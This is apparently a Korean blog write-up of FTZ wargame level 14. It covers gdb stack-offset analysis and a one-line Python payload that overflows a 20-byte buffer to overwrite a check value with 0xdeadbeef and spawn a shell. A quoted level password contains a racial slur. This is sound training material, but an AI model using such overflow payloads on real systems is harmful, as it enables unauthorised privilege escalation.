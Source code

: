 ```yaml
---
title: "[FTZ] level 14"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-18 17:39:31
---
```


# level 14

**level14 / what that nigga want?**

힌트

![image](https://user-images.githubusercontent.com/69203345/146631165-0286625e-073d-46f0-9a9b-863146d593bb.png)

버퍼 오버플로우, 포맷스트링 학습에 도움이 된다고 적혀있다.

정수형 crap  
정수형 check  
buf에 20바이트 크기 할당  
fgets로 문자열을 받는데 45바이트 만큼만 받음  
check 가 0xdeadbeef일때 if 문 실행  
level15의 pid, /bin/bash 실행

/tmp로 복사해서 gdb분석

![image](https://user-images.githubusercontent.com/69203345/146633619-f6a0afc4-80fa-4851-8104-d240af4d14bb.png)

"그 시간"

0x080484a1 <main+17>    lea     eax,[ebp-56]

buf에서 ebp까지의 거리= 56

0x080484ad <main+29>    cmp     DWORD PTR [ebp-16],0xdeadbeef

check 에서 ebp 까지의 거리 16

낮은주소

buf[20] [ebp-56]  
dummy[20]  
check[4] [ebp-16]  
crap[4]+dummy[8]   
sfp[4]  
ret[4]

높은주소

페이로드  
buf~check 까지의 거리 + 변조할값
> (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146635091-6ad8ad0c-2996-4833-809b-bafeee270d13.png)
